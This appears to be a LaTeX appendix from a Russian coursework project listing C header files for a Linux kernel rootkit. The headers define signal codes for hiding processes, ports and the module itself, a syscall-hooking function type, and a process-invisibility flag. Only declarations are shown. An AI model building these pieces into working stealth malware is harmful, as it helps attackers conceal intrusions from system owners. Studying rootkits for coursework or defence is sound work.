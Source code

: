 \chapter*{\hfill{}ПРИЛОЖЕНИЕ А\hfill{}}%
\label{cha:appendix1}
\section*{\hfill{}РЕАЛИЗАЦИЯ\hfill{}}%
\label{sec:realizatsiia}

\begin{lstlisting}[language=c,caption={Объявление констант и типов},label=lst:defsh]
#ifndef OSCW_DEF_H_
#define OSCW_DEF_H_

#include <linux/syscalls.h>
#include <linux/signal.h>

enum {
    SIGINVISPROC = SIGUSR1, // 10
    SIGINVISPORT = SIGUSR2, // 12
    SIGMODHIDE   = SIGRTMIN // 32
};

struct linux_dirent {
    unsigned long	d_ino;
    unsigned long	d_off;
    unsigned short	d_reclen;
    char		    d_name[1];
};

typedef asmlinkage long (*syscall_t)(const struct pt_regs *);

#endif // OSCW_DEF_H_
\end{lstlisting}

\begin{lstlisting}[language=c,caption={Вспомогательные функции},label=lst:util]
#ifndef OSCW_UTIL_H_
#define OSCW_UTIL_H_

#include <linux/types.h>
#include <linux/kernel.h>

static inline pid_t
str_to_pid(char *str) {
    return simple_strtoul(str, NULL, 10);
}

#endif // OSCW_UTIL_H_
\end{lstlisting}

\begin{lstlisting}[language=c,caption={Сокрытие процессов, заголовочный файл},label=lst:proc_h]
#ifndef OSCW_PROC_H_
#define OSCW_PROC_H_

#include <linux/sched.h>
#include <linux/proc_fs.h>
#include <linux/proc_ns.h>

#define PF_INVISIBLE 0x01000000

struct task_struct *
find_task_struct(pid_t pid);

int
is_invisible_pid(pid_t pid);
int
is_invisible_task_struct(struct task_struct *task);

void
toggle_proc_invisability(struct task_struct *task);

#endif // OSCW_PROC_H_
\end{lstlisting}

